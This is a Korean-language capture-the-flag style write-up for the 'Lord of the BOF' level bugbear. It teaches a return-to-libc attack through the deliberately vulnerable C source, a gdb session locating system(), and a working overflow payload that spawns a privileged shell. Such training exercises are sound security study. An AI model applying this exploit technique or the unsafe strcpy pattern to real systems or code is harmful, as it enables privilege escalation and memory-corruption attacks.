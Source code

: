 ```yaml
---
title: The Lord of the BOF - darkknight -> bugbear
slug: lob-darkknight
date: 2016-09-08 17:10:00 +0900 KST
categories: [write-up]
markup: mmark
---
```


return to library 개념 이해하기

아래는 문제의 코드

```c
/*
    The Lord of the BOF : The Fellowship of the BOF
    - bugbear
    - RTL1
*/

#include <stdio.h>
#include <stdlib.h>

main(int argc, char *argv[])
{
    char buffer[40];
    int i;

    if(argc < 2){
        printf("argv error\n");
        exit(0);
    }

    if(argv[1][47] == '\xbf')
    {
        printf("stack betrayed you!!\n");
        exit(0);
    }

    strcpy(buffer, argv[1]);
    printf("%s\n", buffer);
}
```

이전 단계까지는 삽입한 쉘코드의 주소를 ret에 넣어서 쉘 권한을 얻어냈었다.

그런데 옛날부터 스택을 이용한 공격은 안된지 오래다.

그래서 RTL을 쓰는데...

ret 영역에는 system 함수 주소를 넣고, system 함수에 인자로 ebp+8이 될 곳에 "/bin/sh" 문자열의 주소를 넣으면 문제를 풀 수 있다.

```sh
$ cp bugbear augbear
$ ls -l
total 28
-rwxr-xr-x    1 darkknig darkknig    12043 Sep  2 09:05 augbear
-rwsr-sr-x    1 bugbear  bugbear     12043 Mar  8  2010 bugbear
-rw-r--r--    1 root     root          385 Mar 29  2010 bugbear.c
```

gdb랑 core 덤프용으로 bugbear를 augbear로 복사하고

```x86asm
$ gdb augbear -q
(gdb) b main
Breakpoint 1 at 0x8048436
(gdb) r
Starting program: /home/darkknight/augbear

Breakpoint 1, 0x8048436 in main ()
(gdb) print system
$1 = {} 0x40058ae0 <__libc_system>
```

system 함수 주소를 알아내고

그리고 x/10000s 쳐서 "/bin/sh"를 찾아서 풀었다.

아래는 페이로드

```sh
./bugbear `python -c 'print "A"*44 + "\xe0\x8a\x05\x40" + "AAAA" + "\xf9\xbf\x0f\x40"'`
```

